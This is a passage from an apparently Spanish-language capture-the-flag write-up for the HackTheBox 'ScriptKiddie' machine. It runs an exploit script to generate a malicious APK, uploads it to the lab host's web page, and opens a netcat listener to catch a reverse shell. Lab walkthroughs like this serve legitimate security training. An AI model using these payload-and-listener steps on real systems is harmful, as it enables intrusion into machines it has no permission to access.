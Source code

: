 ```
python3 49491.py
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SCRIPTKIDDIE/images/7.png)

No escró la apk maliciosa en la siguiente ruta: **/tmp/tmpuyfkn0bt/evil.apk**

Vamos a copiarlo en nuestra ruta actual:

```
cp /tmp/tmpuyfkn0bt/evil.apk .
```

ahora lo vamos a cargar en la pagina de la maquina: http://10.10.10.226:500/

Y al mismo tiempo nos ponemos a la escucha con netcat en el puerto 4455:

```
nc -lvnp 4455
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SCRIPTKIDDIE/images/8.png)
